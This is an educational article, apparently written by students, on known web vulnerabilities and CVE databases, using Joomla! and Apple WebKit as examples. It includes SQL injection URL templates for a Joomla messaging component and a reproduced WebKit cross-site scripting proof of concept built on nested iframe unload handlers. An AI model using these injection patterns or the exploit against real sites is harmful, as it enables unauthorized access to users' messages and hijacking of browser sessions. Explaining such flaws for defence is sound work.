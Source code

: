 Known Vulnerabilities
=====================

*Written by Nathan, Edited by Taylor and Collin.*

Introduction
------------

.. image:: file_upload.png

Known vulnerabilities are code creations that are known to cause unwanted and 
unintended effects. Because of the multitude of ways that websites can be 
attacked, web security is an ongoing fight between security developers and 
hackers. These security vulnerabilities can include a wide variety of exposures, 
including Cross Site Scripting, SQL Injection, Insecure File Uploads, 
Authentication Bypass, and many, many more. To keep things organized, the 
internet contains dozens of CVE (Common Vulnerabilities and Exposures) databases 
that are filled with examples of issues other people have found in certain websites. 

Why Release the Vulnerabilities?
--------------------------------

When the vulnerability is placed in the database, the developer isn't the only 
one who can make a query. Because the CVE databases are public, hackers can find 
the information just as easily, making the vulnerability a race between the 
developer and the hacker. This brings up the question: why would anyone want to 
create a database of known vulnerabilities? It's much easier to commit the 
attack than to patch a solution, test it, and push it to the server. 

Fortunately, the vulnerabilities are oftentimes placed in 
the database by the developer after the vulnerability has been patched. This is 
done to tighten security on applications being actively developed by other 
security experts. The experts can find common issues that have been discovered
by their like-minded peers, then implement the solutions into their own 
application. 

Listed below are different web applications and their vulnerabilities. No 
software has been proven to be airtight, and vulnerabilities are being released 
every day to help combat mischievous attackers. These applications can be 
developed by anywhere from small, upcoming businesses to software powerhouses. 
Here is a list of applications that are known to have vulnerabilities, including 
information on how to combat the vulnerability. 


Joomla!
-------

Joomla! is a content management system that deals with website creation and 
distribution. A variety of sites have been created with Joomla!, including 
Lipton Ice Tea, Lazarex Cancer Foundation, Michael Phelps' Store, and many more
[JOO]_. Known vulnerabilities with the Joomla! application include:

**SQL Injection:**

Joomla MSG (My Personal Messages) is a way in which users are able to 
communicate with one another through a website. An exploit was found that 
allowed for an attacker to log in as another user by appending the default 
message website path with SQL queries, resulting in an attacker being able to 
view other user's messages. Below is an example of how the SQL injection could 
be implemented into a URL to access another person's messages [EDB]_.::

	# View someone else's messages
	http://localhost/[PATH]/index.php?option=com_mymsg&view=msg&filter_box=[Insert_SQL_Here]
	# Reply as someone else
	http://localhost/[PATH]/index.php?option=com_mymsg&layout=edit&reply_id=[Insert_SQL_Here]

**Insecure File Upload:**

The default Joomla Event Manager (JEM) allows for an authenticated user to 
upload HTML and HTM files as an attachment. If an attacker was to upload the 
files containing malicious Javascript coding, a victim would be able to 
download said files. This would put them at risk to whatever hack the attacker 
created. In order to prevent this type of vulnerability, the JEM should 
restrict file uploads to valid files of a certain type.

Apple
-----

Apple is a large, multibillion-dollar company that offers a variety of 
services. One of these services includes Apple WebKit, a web browser engine 
used by OS X applications including Safari [AWK]_. There are several past 
vulnerabilities found with Apple WebKit, including the following:

**Cross Site Scripting**

Cross Site Scripting (or XSS) is a vulnerability that is usually found within 
web applications. An attacker using XSS can inject their script to a normal 
website, which unknowingly passes the malicious script to the user [XSS]_. The 
script language is usually Javascript due to nearly every website using some 
form of it. The script can then read the information that the user's computer 
transmits to the website, including location and cookies.

Apple's WebKit engine (specifically on Safari 10.0.2) is vulnerable to this 
type of attack. The code attacks the FrameLoader::clear function that clears the
user's screen. XSS is then injected into the unload event handler with 
Javascript to execute whatever function the attacker desires. The code looks 
similar to this [EDB]_.::

	function main() {
	    let f = document.body.appendChild(document.createElement("iframe"));
	     
	    let a = f.contentDocument.documentElement.appendChild(document.createElement("iframe"));
	    a.contentWindow.onunload = () => {
	        let b = f.contentDocument.documentElement.appendChild(document.createElement("iframe"));
	        b.contentWindow.onunload = () => {
	            f.src = "javascript:''";
	 
	            let c = f.contentDocument.documentElement.appendChild(document.createElement("iframe"));
	            c.contentWindow.onunload = () => {
	                f.src = "javascript:''";
	 
	                let d = f.contentDocument.appendChild(document.createElement("iframe"));
	                d.contentWindow.onunload = () => {
	                    f.src = "javascript:setTimeout(eval(atob('" + btoa("(" +function () {
	                        alert(document.location);
	                    } + ")") + "')), 0);";
	                };
	            };
	        };
	    };
	 
	    f.src = "https://abc.xyz/";
	}
	 
	main();



Works Cited
-----------
.. [EDB] "Offensive Security’s Exploit Database Archive." <https://www.exploit-db.com/>`_ Exploits Database by Offensive Security. N.p., n.d. Web. 24 Feb. 2017. 
.. [JOO] "Joomla.org." <https://www.joomla.org/>'_ Joomla! N.p., n.d. Web. 24 Feb. 2017.
.. [AWK] "WebKit." <https://webkit.org/>'_ WebKit. N.p., n.d. Web. 24 Feb. 2017.
.. [XSS] "What Is Cross-site Scripting and How Can You Fix It?" <https://www.acunetix.com/websitesecurity/cross-site-scripting/>'_ Acunetix. N.p., n.d. Web. 25 Feb. 2017.